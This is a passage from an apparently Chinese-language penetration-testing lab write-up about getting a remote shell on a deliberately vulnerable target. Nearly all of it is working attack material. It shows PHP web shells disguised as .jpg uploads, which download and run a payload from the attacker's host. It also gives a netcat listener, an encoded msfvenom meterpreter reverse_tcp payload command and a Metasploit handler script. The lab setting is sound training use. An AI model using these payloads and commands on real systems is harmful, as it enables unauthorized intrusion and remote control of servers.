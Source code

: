 - 物理机上写个下载并执行该脚本的PHP代码;存成2.php.jpg

  ```
  <?php system("wget 192.168.100.143/shell.txt -O /tmp/shell.php; php /tmp/shell.php");?>
  ```

- 在Kali上监听1234端口；浏览器去访问上传的2.php.jpg，成功获取目标的shell

  ```
  http://192.168.100.155/fristi/uploads/2.php.jpg
  ```

  ```
  nc -vnlp 1234
  ```

  ![image-20210926150357392](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261503535.png)

> 调用蚁剑直接上传也行



## msf方式获取反弹shell

- msfvenom生成木马

```
sudo msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -b "\x00" -i 10 -f elf -o  /var/www/html/xiao3
```

**linux.rc文件**

```sh
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.143
set LPORT 4444
exploit
```

- 开启监听

```sh
msfconsole  -qr /home/xiaoxiaoran/shell/linux.rc  
```

- 上传3.php.jpg

```php
<?php system("wget 192.168.100.143/xiao3 -O /tmp/xiao3;cd /tmp;chmod +x xiao3;./xiao3 &")?>
```

- 浏览器去访问上传的3.php.jpg，成功获取目标的shell

```
http://192.168.100.155/fristi/uploads/3.php.jpg
```

![image-20210926210347696](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109262103969.png)
